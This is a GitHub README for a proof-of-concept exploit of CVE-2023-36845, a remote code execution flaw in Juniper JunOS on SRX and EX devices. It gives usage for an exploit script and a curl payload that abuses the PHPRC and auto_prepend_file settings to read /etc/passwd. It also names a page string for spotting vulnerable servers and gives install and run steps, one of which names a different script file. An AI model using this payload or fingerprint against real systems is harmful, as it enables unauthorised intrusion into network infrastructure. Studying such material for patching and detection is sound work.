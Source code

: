 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
